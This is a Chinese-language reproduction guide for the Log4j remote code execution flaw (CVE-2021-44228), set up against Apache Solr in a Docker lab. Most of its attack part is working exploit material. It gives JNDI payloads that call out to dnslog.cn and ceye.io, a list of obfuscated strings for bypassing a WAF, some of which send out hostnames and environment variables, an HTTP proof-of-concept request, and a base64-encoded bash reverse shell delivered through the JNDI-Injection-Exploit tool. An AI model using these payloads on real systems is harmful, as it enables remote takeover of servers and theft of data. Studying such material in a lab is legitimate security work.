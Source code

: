 # CVE-2021-44228

> **Created by：**一条‘小龍龙
> **Team：**TracelessSec
> **漏洞描述：**Apche log4j远程代码执行漏洞



# 0x01 产品简介

Log4j 是 Apache 软件基金会开发的日志记录框架。顾名思义，Log4J 是个记录器；记录程序中的错误消息和用户输入等重要信息。

Log4J 是个开源软件库，提供开发人员可自由使用的预先编写的代码。开发人员可以将 Log4J 库插入自己的应用程序，无需专门编写记录器。这种便利性是 Log4J 应用广泛的原因；例如，它内置于 Microsoft 和 Amazon 等大型企业的产品中。

# 0x02 漏洞描述

Log4Shell 源于旧版本 Log4J 2 处理 Java 命名和目录接口 (JNDI) 查询的方式。JNDI 是一款应用程序编程接口 (API)，帮助 Java 应用程序访问外部服务器上托管的资源。JNDI 查询是个命令，告诉应用程序要前往服务器并下载具体对象，例如一段数据或脚本。旧版本的 Log4J 2 会自动运行通过这种方式下载的所有代码。

信息查找替换允许用户和应用程序使用特定语法（`${prefix:name}`）在日志信息中向 Log4J 发送变量。当 Log4J 遇到此语法时，它会解析该变量并将值记录在日志中。例如，如果 Log4J 收到一条消息，内容为`${java:version}`,它会找出设备上运行的当前 Java 版本，并会在日志中记录：“Java 版本 X.XX”。

换句话说，Log4J 不会将消息查找替换视为纯文本。它像命令一样对待它们，并根据它们所说的采取行动。黑客可以利用这一事实，向运行易受攻击的 Log4J 版本的应用程序发送恶意 JNDI 查找命令。例如，黑客可以向 Log4J 发送如下字符串：`${jndi:ldap://{ip}:{port}/dwsd}`当 Log4J 收到此消息时，它将通过访问该地址的服务器并下载位于 `/dwsd` 的对象来解析该变量。这一过程将导致 Log4J 执行黑客藏匿在该位置的任意 Java 代码。

# 0x03 影响范围

该漏洞影响 Apache Log4J 2 的 2.14.1 版本及更早版本

`Apache Log4j 2.x <= 2.14.1 <= Log4j 2.15.0-rc1`

# 0x04 环境搭建

执行以下命令启动使用 `Log4j 2.14.1` 的 `Apache Solr 8.11.0`：

```
docker compose up -d
```

服务器启动后，浏览`http://your-ip:8983`即可查看 Apache Solr 的管理门户。

# 0x04 漏洞复现

## Payload

```
${jndi:dns://${sys:java.version}.xxx.dnslog.cn}
${jndi:ldap://${sys:java.version}.xxx.dnslog.cn}
${jndi:rmi://${sys:java.version}.xxx.dnslog.cn}
${jndi:ldap://123.xxx.dnslog.cn}
```

## Bypass WAF

```
${jndi:ldap://127.0.0.1:1389/a}

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://ceye.io/a}

${${::-j}ndi:rmi://ceye.io/a}

${jndi:rmi://ceye.io}

${${lower:jndi}:${lower:rmi}://ceye.io/a}

${${lower:${lower:jndi}}:${lower:rmi}://ceye.io/a}

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://ceye.io/a}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://ceye.io/a}

${${upper:jndi}:${upper:rmi}://ceye.io/a}

${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://ceye.io/a}

${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://ceye.io/a}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.ceye.io}

${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.ceye.io}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.ceye.io
```

## POC

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.xxx.dnslog.cn} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

## 开始

### 验证漏洞

这里利用HackBar访问该地址

```
http://{ip}:8983/solr/admin/cores?action=${jndi:ldap://111.xxx.dnslog.cn}
```

![Untitled](image/Untitled.png)

DNSlog平台返回如下信息

![Untitled](image/Untitled%201.png)

获得回显，说明存在漏洞。

### 反弹shell

> 注意：需要用到 **JNDI-Injection-Exploit** 工具，地址：[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
> 

攻击机监听端口9999

```bash
nc -lvvp 9999
```

![Untitled](image/Untitled%202.png)

构造反弹shell命令

```bash
bash -i >& /dev/tcp/{vps_ip}/{vps_port} 0>&1
```

> 注意：vps_ip是你要反弹shell的主机ip，vps_port是要监听的端口。
> 

然后进行base64加密

base64加密站点地址：[https://tool.chinaz.com/tools/base64.aspx](https://tool.chinaz.com/tools/base64.aspx)

![Untitled](image/Untitled%203.png)

利用**JNDI-Injection-Exploit**工具，构造以下命令

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xMjcvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -A "{vps_ip}"
```

运行后，如下所示

![Untitled](image/Untitled%204.png)

利用生成的payload进行攻击

![Untitled](image/Untitled%205.png)

发现拿到shell

![Untitled](image/Untitled%206.png)

![Untitled](image/Untitled%207.png)